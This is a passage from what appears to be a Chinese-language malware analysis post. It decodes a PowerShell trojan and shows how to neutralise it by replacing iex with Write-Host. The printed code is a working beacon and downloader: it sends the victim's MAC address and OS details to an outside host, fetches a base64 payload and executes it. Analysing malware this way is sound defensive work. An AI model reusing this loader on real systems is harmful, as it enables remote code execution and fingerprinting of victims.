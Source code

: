 将后面的base64解密后：

![](https://images.payloads.online/4d5d8218-4f5f-11ec-baeb-00d861bf4abb.png)

得到如下代码：

```
while($true)
{
[System.Threading.Thread]::Sleep(200000);
[string]$m = (getmac /FO CSV|Select-Object -Skip 1 -first 1| ConvertFrom-Csv -Header MAC|select-object -expand MAC)
$q = [System.Net.WebRequest]::Create("http://new.beahh.com/startup.php?ver=1&mac="+$m+"&ver="+(Get-WmiObject -Class Win32_OperatingSystem).version+"&bit="+(Get-WmiObject Win32_OperatingSystem).OSArchitecture).GetResponse().GetResponseStream();
$r = (new-object System.IO.StreamReader $q).ReadToEnd() -replace "##";
$c = [System.Text.Encoding]::ASCII.GetString([System.Convert]::FromBase64String($r));
iex $c;
[System.Threading.Thread]::Sleep(1000000);
}
```

外部是一个循环，将Sleep去除后，可以看到调用了`Invoke-Expression`，`Invoke-Expression`是一个能将变量的内容当作powershell表达式执行的函数。

而iex只是`Invoke-Expression`的别名。

下面简单演示几个例子：

```
PS C:\Users\Rvn0xsy> iex "Write-Host Rvn0xsy"
Rvn0xsy
PS C:\Users\Rvn0xsy> Write-Host Rvn0xsy
Rvn0xsy
PS C:\Users\Rvn0xsy> Invoke-Expression "Write-Host Rvn0xsy"
Rvn0xsy
PS C:\Users\Rvn0xsy>
```
将上述的木马脚本中iex替换成Write-Host即可：

```
while($true)
{

[string]$m = (getmac /FO CSV|Select-Object -Skip 1 -first 1| ConvertFrom-Csv -Header MAC|select-object -expand MAC)
$q = [System.Net.WebRequest]::Create("http://new.beahh.com/startup.php?ver=1&mac="+$m+"&ver="+(Get-WmiObject -Class Win32_OperatingSystem).version+"&bit="+(Get-WmiObject Win32_OperatingSystem).OSArchitecture).GetResponse().GetResponseStream();
$r = (new-object System.IO.StreamReader $q).ReadToEnd() -replace "##";
$c = [System.Text.Encoding]::ASCII.GetString([System.Convert]::FromBase64String($r));
Write-Host $c;
}
```
在这里我们使用Windows 10自带的Windows Powershell ISE脚本调试器来进行后续的分析。

![](https://images.payloads.online/4da5b0ce-4f5f-11ec-8b80-00d861bf4abb.png)

